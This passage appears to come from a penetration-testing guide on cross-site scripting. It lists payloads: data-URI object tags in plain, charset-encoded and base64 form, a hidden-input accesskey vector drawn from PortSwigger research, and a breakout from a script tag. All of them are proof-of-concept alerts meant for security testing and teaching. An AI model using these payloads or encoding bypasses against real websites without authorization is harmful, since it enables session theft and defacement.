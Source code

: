#### Using data encoding

```javascript
<object data="data:text/html,<script>alert(1)</script>"></object>
<object data="data:text/html;charset=iso-8859-7,%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e"></object>
<object data="data:text/html;charset=UTF-8,<script>alert(1)</script>"></object>
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4="></object>
<object data="data:text/html;charset=thing;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg"></object>
```

### XSS in "Unexploitable tags" \(input hidden, link, canonical\)

From [here](https://portswigger.net/research/xss-in-hidden-input-fields):  
You can execute an **XSS payload inside a hidden attribute**, provided you can **persuade** the **victim** into pressing the **key combination**. On Firefox Windows/Linux the key combination is **ALT+SHIFT+X** and on OS X it is **CTRL+ALT+X**. You can specify a different key combination using a different key in the access key attribute. Here is the vector:

```markup
<input type="hidden" accesskey="X" onclick="alert(1)">
```

T**he XSS payload will be something like this: `" accesskey="x" onclick="alert(1)" x="`**

### Blacklist Bypasses

Several tricks with using different encoding were exposed already inside this section. Go **back to learn where can you use HTML encoding, Unicode encoding, URL encoding, Hex and Octal encoding and even data encoding**.

#### Bypasses for HTML tags and attributes

Read the[ Blacklist Bypasses of the previous section](./#blacklist-bypasses).

#### Bypasses for JavaScript code

Read the J[avaScript bypass blacklist of the following section](./#javascript-bypass-blacklists-techniques).

## Injecting inside JavaScript code

In these case you **input** is going to be **reflected inside the JS code** of a `.js` file or between `<script>...</script>` tags or between HTML events that can execute JS code or between attributes that accepts the `javascript:` protocol.

### Escaping &lt;script&gt; tag

If your code is inserted within `<script> [...] var input = 'reflected data' [...] </script>` you could easily **escape closing the `<script>`** tag:

```javascript
</script><img src=1 onerror=alert(document.domain)>
```
